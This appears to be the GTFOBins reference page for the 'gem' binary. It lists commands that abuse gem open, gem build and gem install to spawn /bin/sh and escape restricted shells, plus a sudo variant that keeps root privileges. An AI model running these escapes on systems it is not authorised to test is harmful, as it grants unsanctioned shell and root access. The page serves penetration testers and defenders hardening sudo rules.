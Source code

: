 # GTFOBin: gem

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This requires the name of an installed gem to be provided (`rdoc` is usually installed).

```
gem open -e "/bin/sh -c /bin/sh" rdoc
```

This invokes the default editor, which is likely to be `vi`, other functions may apply. This requires the name of an installed gem to be provided (`rdoc` is usually installed).

```
gem open rdoc
:!/bin/sh
```

This executes the specified file as `ruby` code.

```
TF=$(mktemp -d)
echo 'system("/bin/sh")' > $TF/x
gem build $TF/x
```

This executes the specified file as `ruby` code.

```
TF=$(mktemp -d)
echo 'system("/bin/sh")' > $TF/x
gem install --file $TF/x
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This requires the name of an installed gem to be provided (`rdoc` is usually installed).

```
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```